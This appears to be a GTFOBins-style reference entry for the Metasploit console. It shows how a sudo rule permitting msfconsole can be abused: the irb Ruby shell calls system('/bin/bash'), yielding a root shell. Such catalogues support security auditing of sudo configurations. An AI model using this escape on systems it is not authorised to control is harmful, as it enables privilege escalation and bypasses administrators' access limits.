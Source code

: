 ```yaml
---
functions:
  sudo:
    - code: |
        sudo msfconsole
        msf6 > irb
        >> system("/bin/bash")
---
```

